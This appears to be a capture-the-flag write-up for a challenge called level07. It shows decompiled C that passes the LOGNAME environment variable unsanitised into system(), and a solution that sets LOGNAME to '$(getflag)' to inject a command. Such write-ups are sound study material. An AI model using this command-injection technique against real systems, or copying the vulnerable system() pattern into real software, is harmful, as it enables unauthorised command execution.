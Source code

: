 # Solution  

```$>ghidra level07```

C code:

```c
pcVar1 = getenv("LOGNAME");
asprintf(&local_1c,"/bin/echo %s ",pcVar1);
iVar2 = system(local_1c);
```

> asprintf allocate local_1c with the print.

```bash
$>export LOGNAME='$(getflag)'
```

In the code local_1c will be ```/bin/echo $(getflag) ```

System will execute the command.